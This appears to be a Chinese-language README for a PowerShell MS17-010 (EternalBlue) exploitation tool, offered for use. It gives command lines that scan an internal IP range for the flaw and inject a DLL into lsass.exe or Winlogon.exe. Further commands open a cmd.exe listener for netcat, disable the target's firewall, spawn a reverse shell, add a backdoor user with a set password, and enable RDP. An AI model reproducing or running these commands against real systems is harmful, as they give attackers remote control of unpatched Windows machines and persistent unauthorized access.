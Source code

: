 原生脚本的快速使用

```
-m //加载模版
-process //指定要注入DLL的进程 默认为lsass.exe
-Port //指定攻击端口 默认445
-x //指定要攻击系统位数
-fs //批量探测内网是否存在ms17010
-target //指定扫描的IP段
```



批量监测是否包含MS17010漏洞

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -fs 1 -target 172.16.224.0-172.16.224.255
```

![image-20220818022507867](./Readme.assets/image-20220818022507867.png)

Check目标（必须执行 如果目标为XP系统则需要将OS指定为0，如果非XP系统则将OS指定为1），如果利用成功则返回系统位数，执行结果如下图所示

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -target 172.16.224.15 -OS 1
```

![image-20220818022852790](./Readme.assets/image-20220818022852790.png)

使用如下命令，可以在目标的666端口上面开启一个cmd.exe的监听并用NC进行连接

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64
```

![image-20220818023049851](./Readme.assets/image-20220818023049851.png)

如果对方开启了防火墙会导致我们不能直接获取shell，但是我们可以加载firewall模版来关闭目标的防火墙

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall
```

当然你可以在关闭目标防火墙之后 反弹shell

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall -process Winlogon.exe -Reshell 1
```

添加用户testoaa HjjLJjj@123

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m useradd
```

开启3389并在防火墙放通行

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m openrdp
```
参考链接
https://github.com/1135/EquationExploit

